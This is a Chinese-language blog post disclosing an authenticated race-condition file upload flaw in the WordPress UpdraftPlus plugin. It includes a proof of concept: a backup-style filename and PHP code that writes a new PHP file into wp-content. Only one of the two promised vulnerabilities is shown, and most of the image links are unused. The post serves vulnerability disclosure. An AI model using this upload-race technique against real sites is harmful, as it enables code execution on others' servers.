 ```yaml
---
title: WordPress Updraftplus 插件漏洞2则以及一些有趣的故事
date: 2017-12-19 16:48:13
tags:
- wordpress
- 条件竞争
- ssrf
---
```


几个月前代码审计的时候，翻了翻wordpress的几个插件，因为wordpress的主要功能基本都是后台的，很少有前台能触发的漏洞，也就没看了，后来顺手就把挖到的2个后台漏洞申请了cve，没想到引来两个人讨论...

你觉得，什么样的漏洞才算是漏洞呢？




# authentiicated upload file and php code execution #

file `/wp-content/plugins/updraftplus/admin.php` line 1843 function `plupload_action`

via the name parameter to set filename, and move file content into this file.

The server will do a basic verification of the file name, you can get a valid backup file name,just like `backup_2017-11-29-1844_test_d6c634e49869-plugins.zip.`

![image.png-72.3kB][1]

after the 39 lines, this file be delete
![image.png-296.3kB][2]

there are Race condition, when we view this pages before delete after write in. we can make php code execution.


## PoC ##

file name just like:
```
backup_2017-11-29-1844_test_d6c634e49869-plugins
```


file content:
```
<?php
$f = fopen('../a.php','wb');
fwrite($f, '<?php phpinfo();?>');
fclose($f);
```

via upload this file, and view this pages before delete, we can write a a.php into `/wp-content/a.php`


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ypg8xnr3sond8644y8swl8jc/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/68a8puqj0k96ifgmryzi2ogw/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ewecs9lrot08ijg2vlvituh9/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/u7y5hg3m1y2nj2c8kxbbhuk6/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/8o61e5tla9dglj0m5g2z7349/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/r1pfhrohhin6kj295zoqckjh/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/nvvhoe3gxmepnug6yf6aaojr/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/pksfa3e4gtjg6ztgnuubedkb/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/smc72erghubs8a1xvtzo5sjp/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/qa12ejx4ad0pf4c245fe3nqg/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/gm5rvjq13ajcw3o19cyprllv/image.png